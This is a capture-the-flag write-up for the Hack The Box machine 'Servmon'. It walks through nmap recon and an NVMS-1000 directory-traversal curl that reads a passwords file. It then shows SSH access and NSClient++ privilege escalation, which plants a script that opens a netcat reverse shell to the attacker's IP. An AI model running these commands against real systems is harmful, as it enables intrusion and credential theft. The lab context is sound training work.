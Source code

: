 ```yaml
---
title: "[HTB] Servmon WriteUp"
date: 2020-06-15T15:34:30-04:00
categories:
  - writeup
tags:
  - HTB
  - Hack The Box
  - WriteUp
---
```


![](./assets/servmon/servmon.jpg)

* OS: Windows
* Difficulty: Easy
* Points: 20
* Release: 11 Apr 2020
* IP: 10.10.10.184

Lets start by running nmap

```bash
nmap -sC -sV -oN nmap/nmap 10.10.10.184
```

Output:
```bash
# Nmap 7.80 scan initiated Tue May  5 19:41:18 2020 as: nmap -sV -sC -oN nmap/nmap 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.024s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp   open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesnt have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4m16s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-05T18:47:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  5 19:43:07 2020 -- 1 IP address (1 host up) scanned in 108.77 seconds
```

FTP is running and allows anonymous login.
There are two users listed on the FTP server, Nadine and Nathan. We also find tome text files, "Notes to do".txt and Confidential.txt

Confidential.txt reads 
```
Nathan,

I left your Passwords.txt file on your Desktop.
Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The webserver is running NVMS-1000, searching for exploits we find [CVE:2019-20085](https://www.exploit-db.com/exploits/48311) which is a directory traversal. We can use this to find the passwords.txt that the note told us about.

```bash
curl --path-as-is -G http://10.10.10.184/../../../../../../../../Users/Nathan/Desktop/passwords.txt
```

This gives us a list of passwords 

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can try SSH with these passwords against both known users. The password L1k3B1gBut7s@W0rk works with Nadine.

We log in as Nadine and find User.txt on the Desktop.


### PrivEsc

This part took me a long time to do, mostly due to the GUI interface. I eventually done it using the [web API](https://docs.nsclient.org/api/).

Port 8443 is running NSClient++.

We can find the password for NSClient++ by going to C:\Program Files\NSClient++ and using the following command

```bash
nscp web --password --display
Current password: ew2x6SsGTxjRwXOT
```

We can try logging in using this password but it will only allow connections from localhost. SSH has port forwarding built in so log in as Nadine with port forwarding enabled.

```bash
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```

Now we can use the web API to add a malicious script and execute it to gain root privileges.

First we need to upload nc.exe to C:/Temp. Then use the following command to add our script.

```bash
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.14.33 9001 -e cmd.exe"
```

When run this will call back to our IP address. Set up a listener on the attacking machine.

```bash
nc -lvnp 9001
```

Then run the script

```bash
curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=1m
```

This should connect back and give us root!

Root.txt is in C:\Users\Administrator\Desktop\root.txt


